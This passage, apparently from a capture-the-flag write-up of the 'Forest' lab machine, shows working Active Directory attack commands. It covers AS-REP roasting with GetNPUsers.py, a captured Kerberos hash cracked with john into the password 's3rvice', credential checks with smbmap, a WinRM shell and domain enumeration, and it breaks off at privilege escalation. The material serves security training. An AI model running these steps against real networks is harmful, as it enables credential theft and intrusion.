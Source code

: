 ```
$ for user in $(cat users.txt); do GetNPUsers.py   -dc-ip 10.10.10.161 HTB/$user -no-pass ; done
...
....
[*] Getting TGT for svc-alfresco
Name          MemberOf                                                PasswordLastSet      LastLogon            UAC      
------------  ------------------------------------------------------  -------------------  -------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2019-10-14 20:14:31  2019-10-14 20:14:22  0x410200 

$krb5asrep$23$svc-alfresco@HTB:d6a48169969bc21fb5b57ad284781a52$2d801f43eabe7cbd836de6d971aac941ee0244fb01687ff333c34ec160908c72a8597b2e9235507269cd7370ee6f
771163a9e2555e0b8e5a44dbf36a6042632b098456e055904b9c622bde5528c4d69e466406df0dc9107a6a9a287efbc663988d41954b877bb548cf7f01e25e43969081ae80465d32e784a6fb5b934
915e1ec2c90ce73911c4cefa3d9fcdcdba157a11ff5b04eaed8ea183e188da1743c7733bf1fe00fff79726dc982575613719c45b94f4efba8fc13804dc25e5d2f7f26333073c1b28f39a73930509162bbfddf8ff0b059831cbd524bbd9539972e58ba86
```

kerberos cheat sheet : https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a

And finally the user "svc-alfresco" works, i save the hash, and crack it with john like :
```
$ john   --wordlist=rockyou.txt hashes.txt
....
...
s3rvice          ($krb5asrep$23$svc-alfresco@HTB)
```

And i can try theses creds like :

```
$ smbmap   -u svc-alfresco -ps3rvice  -H 10.10.10.161
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.161...
[+] IP: 10.10.10.161:445	Name: forest.htb                                        
	Disk                                                  	Permissions
	----                                                  	-----------
	ADMIN$                                                  NO ACCESS
	C$                                                	NO ACCESS
	IPC$                                              	READ ONLY
	NETLOGON                                                READ ONLY
	SYSVOL                                                  READ ONLY

```
## User Shell :

For shell i used  winrm_simple.rb a simple ruby scipt to have a shell trought winrm. And i'm able to have a shell as "svc-alfresco"

### Priv Esca : 

#### Enumeration 
```
PS > Get-ADComputer -Filter *
DistinguishedName : CN=FOREST,OU=Domain Controllers,DC=htb,DC=local
DNSHostName       : FOREST.htb.local
Enabled           : True
Name              : FOREST
ObjectClass       : computer
ObjectGUID        : 0b814a2b-18eb-4f6a-9449-3387cf40b27a
SamAccountName    : FOREST$
SID               : S-1-5-21-3072663084-364016917-1341370565-1000
UserPrincipalName : 

```
